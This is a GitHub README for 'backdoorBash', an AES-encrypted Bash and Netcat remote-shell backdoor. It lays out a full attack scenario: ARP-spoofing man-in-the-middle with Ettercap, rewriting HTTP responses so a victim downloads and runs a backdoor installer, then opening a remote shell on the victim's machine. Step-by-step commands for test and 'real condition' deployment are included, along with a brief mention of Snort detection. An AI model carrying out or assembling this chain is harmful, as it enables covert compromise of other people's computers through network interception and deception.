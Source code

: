 backdoorBash
============

Unix remote-shell backdoor develop with Bash, Netcat, OpenSSL (data encryption with AES-128bit)

## Introduction

This project is associated to another mine : 
- https://github.com/pilebones/etterfilterSamples
- https://github.com/pilebones/hostingBackdoorInstaller

The main goals of this project is to implement an attack scenario as below : 
- Implement backdoor like remote-shell with Bash
- Attack Man In the middle with Ettercap (like ARP Spoofing)
- Hosting a backdoor installer
- Automate data alteration to inject our backdoor inside the computer of target by a browser
- If the target run (naively) the script (ie: the backdoor installer) without reading source-code the computer is infected and the attacker will obtain a remote-access command
- Detect and prevent this kind of attack with NIDS tool as Snort

Notice :
- The programming language was choose only for a Proof of Concept (POC)
- The socket layer is assumed by a portable version of Netcat. I compiled Netcat for i686 and x86_64 computer architecture a put the binary inside this project.
- The transmited data were encrypted with AES-128 (without using Cryptocat). The data are encrypted on the fly via OpenSSL.

## Requirements

- openssl (tested with v1.0.1j)
- ettercap (>= v0.8.1)
- etterfilter (>= v0.8.1)
- etterfilter (>= v0.8.1)
- netcat (The compiled version is "The GNU Netcat" [not BSD release] v0.7.1)

## How it work ?

The backdoor-client connection work localy and remontly (inside same private network with the same access-point), ie : see "$HOST" inside "config.sh".

### Simple test

```bash
git clone git@github.com:pilebones/backdoorBash.git
cd backdoorBash
cp config.sh.sample config.sh 
vim config.sh
./server.sh
HOST=192.168.0.x ./client.sh
```
.... And try to execute some shell command

### Real condition

```bash
git clone git@github.com:pilebones/backdoorBash.git
git clone git@github.com:pilebones/etterfilterSamples.git
git clone git@github.com:pilebones/hostingBackdoorInstaller.git
cp backdoorBash/config.sh.sample backdoorBash/config.sh
vim backdoorBash/config.sh
# For export remove client.sh *.log config.sh.sample
tar xvzf hostingBackdoorInstaller/export.tar.gz backdoorBash/
# Configure your vhost to hosting hostingBackdoorInstaller's project
cd etterfilterSamples/inject_backdoor_installer/
# Update Redirect URL from "fake-http-redirect.txt"
vim fake-http-redirect.txt
IFACE=wlanX IP_AP=192.168.0.1 IP_TARGET=192.168.0.x ./run
# From target try to download a shell script like "test.sh" or try with 404 Not Found page (same behavior => inject backdoor installer)
# From target : "chmod +x bd_installer.sh && ./bd_installer.sh"
HOST=192.168.0.x ./client.sh
```

## Limitations

This backdoor is writing in bash programming language => It work only on Unix OS.

Currently, tested only on :
- Archlinux
- Debian 7 
- Ubuntu 14.10

Warning : 
Some recent router/box/AP/switch prevent this kind of MiTM attack. In this case, Ettercap could relay only one-way network-packets (From target to AP but not from AP to target). So Ettercap can alter the HTTP response to redirect to the backdoor's installer.
